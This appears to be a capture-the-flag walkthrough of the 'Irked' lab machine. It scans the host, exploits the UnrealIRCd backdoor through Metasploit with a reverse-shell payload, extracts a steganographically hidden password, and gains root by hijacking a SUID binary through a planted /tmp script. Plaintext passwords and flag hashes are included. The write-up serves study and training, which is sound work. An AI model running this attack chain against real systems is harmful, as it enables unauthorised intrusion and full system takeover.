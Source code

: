 

Initial Nmap scan:

```
nmap -sV -sC -p- 10.10.10.117
```

```
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
111/tcp open  rpcbind
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
60833/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd (Admin email djmardov@irked.htb)
```

## Exploiting UnrealIRCd Backdoor

Use Metasploit or manual reverse shell over the UnrealIRCd backdoor:
```
msfconsole
search UnrealIRCd 
select 0
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOSTS 10.10.10.117
set RPORT 65534
set payload cmd/unix/reverse
set LHOST <tun0 IP>
set LPORT 4444
run
```
Shell as `ircd`

## Lateral Movement 

```
find /home/djmardov -type f -exec ls -la {} \; 2>/dev/null
-rw-r--r-- 1 djmardov djmardov 675 May 11  2018 /home/djmardov/.profile
-rw-r--r-- 1 djmardov djmardov 52 May 16  2018 /home/djmardov/Documents/.backup
-rw------- 1 djmardov djmardov 4706 Nov  3  2018 /home/djmardov/.ICEauthority
-rw-r--r-- 1 djmardov djmardov 220 May 11  2018 /home/djmardov/.bash_logout
-rw-r--r-- 1 djmardov djmardov 3515 May 11  2018 /home/djmardov/.bashrc
-rw-r----- 1 root djmardov 33 Apr 17 21:38 /home/djmardov/user.txt
ircd@irked:~/Unreal3.2$ ls -la /home/djmardov
```
Lets check the .backup
```
/home/djmardov/Documents/.backup
cat /home/djmardov/Documents/.backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

If we try to log in to djmardov with this password, we are not allowed to do that :(
But there was an image on the from page, lets have a look at that.

```
wget http://10.10.10.117/irked.jpg
```

```
steghide extract -sf irked.jpg
# Password: UPupDOWNdownLRlrBAbaSSss

Kab6h+m+bbp2J:HG
```

Now back in our shell 
``
```
su djmardov
# Password: Kab6h+m+bbp2J:HG

cat ~/user.txt
88780f4a6407365cc883e23959d27e6e
```

## Privilege Escalation to Root

Check for SUID binaries:
```
find / -perm -4000 -type f 2>/dev/null
...
/usr/bin/viewuser
...
```

If we run that 
```
/usr/bin/viewuser
sh: 1: /tmp/listusers: not found
```
This means it tries to run `/tmp/listusers` **as root**.
Create malicious script:

```
echo "/bin/sh" > /tmp/listusers
chmod +x /tmp/listusers
```

Run the SUID binary:
```
/usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2025-04-17 21:38 (:0)
# whoami
whoami
root
# cd /root
cd /root
# ls
ls
pass.txt  root.txt
# cat root.txt
cat root.txt
feff7c74c72c03a02efec10c2bab2b52
```